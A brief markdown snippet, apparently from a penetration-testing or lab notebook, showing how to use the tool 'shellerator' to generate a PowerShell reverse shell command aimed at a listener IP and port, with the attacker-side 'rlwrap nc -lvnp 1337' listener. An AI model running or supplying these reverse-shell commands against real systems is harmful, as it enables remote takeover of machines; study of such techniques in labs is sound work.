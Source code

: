 - `shellerator` can be used to generate a reverse shell command dynamically
```bash
shellerator --reverse-shell --lhost "10.10.16.80" --lport 1337 --type powershell

#ATTACKER
 rlwrap nc -lvnp 1337
```
![[Pasted image 20250826205243.png]]
